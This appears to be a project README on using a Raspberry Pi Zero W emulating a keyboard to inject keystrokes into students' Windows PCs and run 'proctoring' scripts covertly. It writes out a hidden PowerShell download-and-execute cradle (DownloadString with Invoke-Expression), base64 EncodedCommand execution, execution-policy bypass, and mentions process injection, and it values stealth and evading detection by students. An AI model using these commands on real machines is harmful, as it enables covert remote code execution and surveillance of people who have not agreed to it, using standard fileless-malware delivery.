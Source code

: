 # 1. Fileless Execution

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

Using the Raspberry Pi Zero W, HID mode, keystroke can be sent to execute "Run". Following which, additional keystrokes command can be sent from the examples below to conduct proctoring.  

With the Fileless Execution method, we do not need to copy any external binary executable/scripts to be able to conduct proctoring. Instead we utilize a Windows built-in software Powershell, to download additional scripts and run them purely in memory. 

Reference materials:
- https://www.mcafee.com/enterprise/en-us/assets/solution-briefs/sb-fileless-malware-execution.pdf
- https://www.varonis.com/blog/fileless-malware
- https://www.linkedin.com/pulse/go-hell-powershell-powerdown-attacks-kirtar-oza-cissp-cisa-ms-

## 1.1. Utilizing DownloadString and Invoke-Expression Parameters
```
powershell.exe -executionpolicy bypass -w hidden "Invoke-Expression(New-Object System.Net.WebClient).DownloadString('<proctoring script url>')"
```
Executing the above allow us conduct proctoring directly in to the memory of the Student's PC.  
This is possible because of two Powershell command 
- "DownloadString" where it does not download any file to disk but copies content of the remote file. 
- "Invoke-Expression a.k.a iex" where it runs specified string as a command.

## 1.2. Utilizing EncodedCommand Parameters
To do this we must first, encode our script into base64 using the script below and taking note of the encoded string
```
$command = '<the whole script>'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
write-host $encodedCommand
```
After we know the encoded string, runnning the command below will allow us to conduct proctoring without needing to drop any files into the student's PC. In this case, we would not even need to have a remote script stored anywhere.
```
powershell.exe -executionpolicy bypass -w hidden -e <base64encodedstring>
```
The EncodedCommand a.k.a -e, will read the following given as a base64 string and proceed to execute it 

## 1.3 Additional Parameters
- WindowStyle (-w) hidden: This makes the Powershell operation stealth by hiding the program window away from the user
- Exec Bypass: bypass/ignore the execution policy like _Restricted_ which restricts the PS command from running
  - With this even if user set _ExecutionPolicy: Restricted_, we are still able to run the proctoring script
- Noprofile (-nop): Ignore the commands in the Profile file

## Pros:
- Not intrusive, no file will be downloaded and placed in the student's PC 
- Students have no access to the proctoring script at all 
- Execute in the background hidden
- When updating the proctoring script, proctors can just re-host the newest version on the remote server

## Cons:
- Proctoring Script have to be written in powershell language
- A remote server to serve the proctoring script from method 1.1
- For method 1.2, if there is any update on the proctoring script, encodedstring have to be reformed and HID keystroke commands have to be editted too on every single raspberry pi

# 2. Mass Storage 

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

In this method we utilize the Mass storage mode and HID mode of the composite Pi.  
1. We will be placing in the backing store (storage) created in the Pi. 
2. Once the Pi is connected, the emulated mass storage will be visible.
3. Inside the storage device, the proctoring script will then be present.
4. From there, we can send in keystrokes using the HID mode to execute the script from Windows built in programs (such as cmd.exe or powershell.exe) inside the emulated mass storage device in the Student's PC

## Pros:
- Not much pros

## Cons:
- Script is accessible to students which will allow them to study it and possbily find ways to avoid detection
- In the event of proctoring script updating, every Pi have to be updated manually

# 3. Pymem

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

This method allows the injection of python interpreter into any process. 

## Pros:
- NA 

## Cons: 
- Script that does the injection is presented in the Student's PC
- In the script that perform the injection, the proctoring features is exposed to the students. 

